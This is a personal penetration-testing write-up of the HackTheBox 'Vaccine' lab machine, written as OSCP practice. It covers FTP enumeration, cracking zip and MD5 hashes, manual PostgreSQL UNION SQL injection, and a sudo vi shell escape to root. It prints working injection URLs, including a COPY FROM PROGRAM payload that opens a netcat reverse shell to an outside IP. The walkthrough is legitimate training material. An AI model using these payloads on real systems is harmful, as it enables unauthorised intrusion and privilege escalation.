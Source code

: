 ```yaml
---
title:  "Vaccine - Penetration Testing Write-Up"
layout: post
---
```


# Vaccine – Penetration Testing Write-Up

## Introduction

Write-up number 2, here we go! This one was a little more in depth than the last and I felt the intended paths were shorter and lot more frequent. HTB wanted us to look at the tool `sqlmap` but this is an automated exploitation tool which is not allowed on the OSCP, I spent quite some time exploring the different methods to exploit vulnerable postgres servers and learned a lot along the way!

---

## Information Gathering

### Target Discovery

Here we started with a basic nmap scan `nmap -sC -sV {target_ip}`
![](https://i.imgur.com/y9S4MaQ.png)


### Service Enumeration

It does look like we have a few services open
21 - FTP with Anonymous login allowed
22 - SSH
80 - HTTP with an Apache server running


---

## Enumeration

### Port 80 - HTTP
Looks like we are greeted with a login page. I tried a few basic credentials, simple sql injection (because of the boxes tags), and took a look at the cookies. Nothing I want to spend a ton of time on just yet.
![](https://i.imgur.com/QbHWQiU.png)

### Port 21 - FTP

Something a little more interesting, and most likely the intended pathway. If you ignore me trying to learn `tnftp` we're greeted with a backup.zip file. Lets check it out!
![](https://i.imgur.com/8EYumjz.png)

It looks like we are going to need to crack the password (the tags again).
![](https://i.imgur.com/TvQfYed.png)

After some research, for us to use John The Ripper on a zip file, we're going to need to get the hash that we're going to crack using another tool called `zip2john`
![](https://i.imgur.com/PKP5EKh.png)

With the new file, we can pass that into John The Ripper and quickly find the password to the zip file.
![](https://i.imgur.com/B0yRIut.png)

We're greeted with two files, a PHP files and a stylesheet. I'll be honest, I didn't even look at the css file. 
But here is something interesting, from the PHP file, this looks like the login portal we saw earlier and the program is checking to see if the md5 of the password submitted equals a specific hash. Let's bring our new friend back out!
![](https://i.imgur.com/JtPgtuR.png)

I set the formatting to md5 and a file with hash and no other arguments. This session stopped after a few minutes. I probably could have checked against another word list or something else. But I saw the opportunity to use my main rig, for cracking this.
![](https://i.imgur.com/dbiPW4U.png)

I used hashcat in the past, but it's been a while. So I downloaded that, and the rockyou password list, after about 1.5 ms, we found the password!
![](https://i.imgur.com/HWu6bDy.png)


---

## Exploitation

Now, one of the tags was sql injection, this page only has a single search field. I could have scanned with gobuster or burp, but this seemed like the intended path.
![](https://i.imgur.com/EIRFx7s.png)

The tasks for this box wanted us to use `sqlmap` but, that is a auto-exploiting tool and will get your test thrown out if you use it on the OSCP. Additionally, sql injection seems like a valuable skill to hone early on. I spent quite a bit of time on learning the different methods to do this. In particular the [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings) Repo was a huge help and so was [OWASP's](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection) guide!

Eventually, after *some* trial and error, was able to get confirmation that the site was vulnerable to sql injection with this command. 
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, version(), 't', 't', 't'--
```

Which gave me the output:
```
PostgreSQL 11.7 (Ubuntu 11.7-0ubuntu0.19.10.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008, 64-bit
```


I moved on to enumerating different directories to find some information, here I was able to identify the user flag, as well as an ssh key.
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, pg_ls_dir('../../'), 't', 't', 't'--
```

![](https://i.imgur.com/Fc9IZ8I.png)

Unfortunately, I was not able to ssh in this way. So I had to dig a bit deeper.
![](https://i.imgur.com/UWoyXEZ.png)

About now, is when I started to really understand what I was doing with the union based injection and again, thanks to PayloadAllTheThings, I was able to establish a reverse shell with netcat and the two following commands.
```
http://10.129.193.163/dashboard.php?search=elixir'; CREATE TABLE shell(output text);--

http://10.129.193.163/dashboard.php?search=elixir'; COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.190 1337 >/tmp/f';--
```

---

## Privilege Escalation

Just like that, we were to establish a reverse shell to the postgres user. This shell was really finicky. The connection closed frequently, it wasn't fully interactive, every time it closed I had to use the last sql injection. I tried to do a few things to get a foothold, I tried to get new ssh keys and change the permissions, run linpeas, and a few other methods. Eventually, I did some more digging and and found credentials for the postgres user.
![](https://i.imgur.com/YrzRyga.png)

This allowed me to ssh in as postgres and establish a clean foothold as well as continue my priv esc. The next task hinted at programs the postgres user can run as root using sudo. I've delt with something like this in the past, and after a couple quick google searches, using the command `sudo -l` lists exactly this. Here we were able to identify that the postgres user can run sudo for the program vi, but on on the `pg_nba.conf` file.
![](https://i.imgur.com/0QMw5U9.png)

although linpeas was not working in the netcat shell very well, it may have been helpful to point me at the vi exploit here. However, after a bit of searching around, I and later learned in the write up, about the repository https://gtfobins.github.io/ (as well as https://lolbas-project.github.io/# for windows) which contains privilege escalation techniques and so much more for out of the box programs. After a bit of trial and error. I was able to escalate my privileges by using the command 
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Followed by the commands described in the vi exploit:
```bash
:set shell=/bin/sh
:shell
```

This gave me a root shell, and I was able to quickly snag the root flag.
![](https://i.imgur.com/R35iaBH.png)

---

## Outcome

Thank you for taking to time to read, or at least skim through this post. This box took some time, but I learned quite a bit along the way. Skipping `sqlmap` allowed me to deep dive into different techniques for sql injection. I also had no idea how many privilege escalation techniques there were. During this time I also tried out a more structured note taking technique that I found from [QuirkyKirkHax](https://www.youtube.com/watch?v=gXFTM3fRqIg) that structured things in a way that I am a fan of, I think I will build and modify that as I go forward.

---

## Notes

Once again, I did want to take a look at the write up to see what I missed or anything interesting.
- We took similar routes at the beginning, they looked at the ftp server first, but they also used both John and hashcat. 
- For one they used the `hashid` program. I just assumed since we were comparing the md5 of the encrypted input the hash was going to be md5.
- The `sqlmap` seems pretty handy, and maybe more helpful as things get more complex, but it still did require some work to set up

---
